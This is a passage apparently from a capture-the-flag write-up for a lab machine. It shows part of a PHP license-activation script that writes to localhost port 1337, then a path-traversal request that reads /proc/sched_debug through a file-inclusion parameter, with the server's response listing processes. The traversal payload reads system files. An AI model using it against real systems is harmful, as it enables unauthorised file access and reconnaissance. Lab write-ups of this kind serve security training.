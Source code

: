 ```http
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```

`activate_license.php` writes the uploaded file size and bytes to `localhost`:`1337`. It doesn't attempt to retrieve any output.

[Enumeration via /proc](https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html): Read `/proc/sched_debug` to enumerate the running processes. PID 421, whose name begins with `activate_licens`, seems interesting.

```http
GET /index.php?page=js/.....///.....///.....///.....///proc/sched_debug HTTP/1.1
Host: 10.129.160.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Apr 2022 23:42:11 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 26752

 S            task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-------------------------------------------------------------------------------------------------------------
...
 S activate_licens   421    336868.613426        23   120         0.000000         8.903720         0.000000 0 0 /
...
```

Process 421's command line is `/usr/bin/activate_license1337`. This is likely the process running on `localhost`:`1337`.

